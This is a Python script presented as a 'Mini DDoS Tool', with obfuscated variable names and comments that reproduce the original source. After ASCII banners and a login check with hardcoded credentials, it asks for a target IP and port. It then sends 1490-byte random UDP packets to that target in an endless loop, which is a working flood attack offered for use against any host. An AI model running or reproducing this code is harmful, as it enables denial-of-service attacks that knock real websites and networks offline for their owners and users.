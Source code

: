 import os #line:1:import os
import time #line:2:import time
import socket #line:3:import socket
import random #line:4:import random
def print_logo ():#line:7:def print_logo():
    os .system ("clear")#line:8:os.system("clear")
    print ("\033[92m")#line:9:print("\033[92m")
    print ("   ╔══════════════════════════════════════════════════════════════╗")#line:10:print("   ╔══════════════════════════════════════════════════════════════╗")
    print ("   ║                   CYBER ENAN TOOL                      ║")#line:11:print("   ║                   CYBER ENAN TOOL                      ║")
    print ("   ╚══════════════════════════════════════════════════════════════╝")#line:12:print("   ╚══════════════════════════════════════════════════════════════╝")
    print ("\n")#line:13:print("\n")
    print ("    _____      _               ______                    ")#line:14:print("   _____      _               ______                   ")
    print ("  / ____|    | |             |  ____|                   ")#line:15:print("  / ____|    | |             |  ____|                  ")
    print (" | |    _   _| |__   ___ _ __| |__   _ __   __ _ _ __   ")#line:16:print(" | |    _   _| |__   ___ _ __| |__   _ __   __ _ _ __  ")
    print (" | |   | | | | '_ \ / _ \ '__|  __| | '_ \ / _` | '_ \  ")#line:17:print(" | |   | | | | '_ \ / _ \ '__|  __| | '_ \ / _` | '_ \ ")
    print (" | |___| |_| | |_) |  __/ |  | |____| | | | (_| | | | | ")#line:18:print(" | |___| |_| | |_) |  __/ |  | |____| | | | (_| | | | |")
    print ("  \_____\__, |_.__/ \___|_|  |______|_| |_|\__,_|_| |_| ")#line:19:print("  \_____\__, |_.__/ \___|_|  |______|_| |_|\__,_|_| |_|")
    print ("         __/ |                                          ")#line:20:print("         __/ |                                         ")
    print ("         |___/                                           ")#line:21:print("        |___/                                          ")
    print ("\033[94m")#line:22:print("\033[94m")
    print ("   ╔══════════════════════════════════════════════════════════════════════╗")#line:23:print("   ╔══════════════════════════════════════════════════════════════════════╗")
    print ("   ║                    DEVELOPER INFORMATION                             ║")#line:24:print("   ║                    DEVELOPER INFORMATION                             ║")
    print ("   ╠══════════════════════════════════════════════════════════════════════╣")#line:25:print("   ╠══════════════════════════════════════════════════════════════════════╣")
    print ("   ║  👤 Coded By  : Istiak Ahmed Enan                              ║")#line:26:print("   ║  👤 Coded By  : Istiak Ahmed Enan                              ║")
    print ("   ║  🖊️ Author     : Cyber Parvej                                     ║")#line:27:print("   ║  🖊️ Author     : Cyber Parvej                                     ║")
    print ("   ║  🔗 Facebook  : https://www.facebook.com/ALWAYS.REMEMBER.THAT.NAME.ISTIAK.AHMED.ENAN       ║")#line:28:print("   ║  🔗 Facebook  : https://www.facebook.com/ALWAYS.REMEMBER.THAT.NAME.ISTIAK.AHMED.ENAN       ║")
    print ("   ║  📘 Team  Page: https://www.facebook.com/SherpurCyberCommunity        ║")#line:29:print("   ║  📘 Team  Page: https://www.facebook.com/SherpurCyberCommunity         ║")
    print ("   ║  🏛️ Team  Group: https://facebook.com/groups/sherpurcybercommunityhelpline/ ║")#line:30:print("   ║  🏛️ Team  Group: https://facebook.com/groups/sherpurcybercommunityhelpline/ ║")
    print ("   ╠══════════════════════════════════════════════════════════════════════╣")#line:31:print("   ╠══════════════════════════════════════════════════════════════════════╣")
    print ("   ║  🔥 Tool Version: 1.3.25                                             ║")#line:32:print("   ║  🔥 Tool Version: 1.3.25                                             ║")
    print ("   ╚══════════════════════════════════════════════════════════════════════╝")#line:33:print("   ╚══════════════════════════════════════════════════════════════════════╝")
    print ("\n")#line:34:print("\n")
def login ():#line:37:def login():
    print ("\033[92m")#line:38:print("\033[92m")
    print ("   ╔════════════════════════════╗")#line:39:print("   ╔════════════════════════════╗")
    print ("   ║      LOGIN TO CONTINUE     ║")#line:40:print("   ║      LOGIN TO CONTINUE     ║")
    print ("   ╚════════════════════════════╝")#line:41:print("   ╚════════════════════════════╝")
    O0O0OO0000OO00O00 =0 #line:43:attempts = 0
    while O0O0OO0000OO00O00 <3 :#line:44:while attempts < 3:
        O0000000OOO000O00 =input ("\n   ➤ Enter Username: ")#line:45:username = input("\n   ➤ Enter Username: ")
        OO00OO00OO0OOO00O =input ("   ➤ Enter Password: ")#line:46:password = input("   ➤ Enter Password: ")
        if O0000000OOO000O00 =="cyber_Enan"and OO00OO00OO0OOO00O =="Enan0011":#line:48:if username == "cyber_Enan" and password == "Enan0011":
            print ("\n   ✅ Login Successful!\n")#line:49:print("\n   ✅ Login Successful!\n")
            time .sleep (1 )#line:50:time.sleep(1)
            os .system ("clear")#line:51:os.system("clear")
            return True #line:52:return True
        else :#line:53:else:
            O0O0OO0000OO00O00 +=1 #line:54:attempts += 1
            print (f"\n   ❌ Invalid Credentials! Attempts Left: {3 - O0O0OO0000OO00O00}\n")#line:55:print(f"\n   ❌ Invalid Credentials! Attempts Left: {3 - attempts}\n")
    print ("\n   ❌ Access Denied! Exiting...\n")#line:57:print("\n   ❌ Access Denied! Exiting...\n")
    exit ()#line:58:exit()
def loading_bar ():#line:61:def loading_bar():
    print ("\033[91m")#line:62:print("\033[91m")
    for O00O00O0OOO00OOOO in range (101 ):#line:63:for i in range(101):
        time .sleep (0.01 )#line:64:time.sleep(0.01)  # Faster loading
        print (f"\r   ➤ Loading: [{'#' * (O00O00O0OOO00OOOO//5)}{' ' * (20 - (O00O00O0OOO00OOOO//5))}] {O00O00O0OOO00OOOO}%",end ='',flush =True )#line:65:print(f"\r   ➤ Loading: [{'#' * (i//5)}{' ' * (20 - (i//5))}] {i}%", end='', flush=True)
    print ("\n\n")#line:66:print("\n\n")
def get_target_details ():#line:69:def get_target_details():
    print ("\033[93m")#line:70:print("\033[93m")
    print ("   ╔══════════════════════════════════════════╗")#line:71:print("   ╔══════════════════════════════════════════╗")
    print ("   ║          ENTER TARGET DETAILS            ║")#line:72:print("   ║          ENTER TARGET DETAILS            ║")
    print ("   ╚══════════════════════════════════════════╝")#line:73:print("   ╚══════════════════════════════════════════╝")
    O0OOOOOO0OO0OOOOO =input ("\n   ➤ Enter Target Website URL: ")#line:75:url = input("\n   ➤ Enter Target Website URL: ")
    OO00OOOOO0O0O000O =input ("   ➤ Enter Target IP Address: ")#line:76:ip = input("   ➤ Enter Target IP Address: ")
    OO000OO00O0O00000 =int (input ("   ➤ Enter Target Port Number: "))#line:77:port = int(input("   ➤ Enter Target Port Number: "))
    print ("\n   ✅ Details received successfully.\n")#line:79:print("\n   ✅ Details received successfully.\n")
    return O0OOOOOO0OO0OOOOO ,OO00OOOOO0O0O000O ,OO000OO00O0O00000 #line:80:return url, ip, port
def print_ddos_banner ():#line:83:def print_ddos_banner():
    print ("\033[96m")#line:84:print("\033[96m")
    print ("   ╔══════════════════════════════════════════╗")#line:85:print("   ╔══════════════════════════════════════════╗")
    print ("   ║               MINI DDOS TOOL             ║")#line:86:print("   ║               MINI DDOS TOOL             ║")
    print ("   ╚══════════════════════════════════════════╝")#line:87:print("   ╚══════════════════════════════════════════╝")
    print ("\n")#line:88:print("\n")
    print ("███████╗███╗   ██╗ █████╗ ███╗   ██╗")
    print ("██╔════╝████╗  ██║██╔══██╗████╗  ██║")#line:90:print("████╗ ████║██║████╗  ██║██║    ██╔══██╗██╔══██╗██╔═══██╗██╔════╝")
    print ("█████╗  ██╔██╗ ██║███████║██╔██╗ ██║")#line:91:print("██╔████╔██║██║██╔██╗ ██║██║    ██║  ██║██║  ██║██║   ██║███████╗")
    print ("██╔══╝  ██║╚██╗██║██╔══██║██║╚██╗██║")#line:92:print("██║╚██╔╝██║██║██║╚██╗██║██║    ██║  ██║██║  ██║██║   ██║╚════██║")
    print ("███████╗██║ ╚████║██║  ██║██║ ╚████║")#line:93:print("██║ ╚═╝ ██║██║██║ ╚████║██║    ██████╔╝██████╔╝╚██████╔╝███████║")
    print ("╚══════╝╚═╝  ╚═══╝╚═╝  ╚═╝╚═╝  ╚═══╝")#line:94:print("╚═╝     ╚═╝╚═╝╚═╝  ╚═══╝╚═╝    ╚═════╝ ╚═════╝  ╚═════╝ ╚══════╝")
def start_ddos (O0O00OO00OOO0O0OO ,OOO00O0OO0O000O00 ):#line:97:def start_ddos(ip, port):
    O00O0000OOO000000 =socket .socket (socket .AF_INET ,socket .SOCK_DGRAM )#line:98:sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    O00OO0O0000OO00O0 =random ._urandom (1490 )#line:99:bytes = random._urandom(1490)
    OO00OOO0000O0OO00 =0 #line:100:packet_count = 0
    print (f"\n   🚀 DDoS Attack started on {O0O00OO00OOO0O0OO} through port {OOO00O0OO0O000O00}")#line:102:print(f"\n   🚀 DDoS Attack started on {ip} through port {port}")
    while True :#line:104:while True:
        O00O0000OOO000000 .sendto (O00OO0O0000OO00O0 ,(O0O00OO00OOO0O0OO ,OOO00O0OO0O000O00 ))#line:105:sock.sendto(bytes, (ip, port))
        OO00OOO0000O0OO00 +=1 #line:106:packet_count += 1
        print (f"\033[35m   ➤ Sent packet #{OO00OOO0000O0OO00} to {O0O00OO00OOO0O0OO} on port {OOO00O0OO0O000O00}")#line:107:print(f"\033[35m   ➤ Sent packet #{packet_count} to {ip} on port {port}")  # Added purple color
def main ():#line:110:def main():
    print_logo ()#line:111:print_logo()
    if login ():#line:114:if login():
        print_ddos_banner ()#line:116:print_ddos_banner()
        loading_bar ()#line:119:loading_bar()
        O0OO0OOO0000O0000 ,O0OO000000O0000O0 ,OO0O0O0OO0O0OO0OO =get_target_details ()#line:122:url, ip, port = get_target_details()
        start_ddos (O0OO000000O0000O0 ,OO0O0O0OO0O0OO0OO )#line:125:start_ddos(ip, port)
    else :#line:126:else:
        print ("\033[91m   ❌ Access Denied! Please try logging in again.")#line:127:print("\033[91m   ❌ Access Denied! Please try logging in again.")
if __name__ =="__main__":#line:129:if __name__ == "__main__":
    main ()#line:130:main()
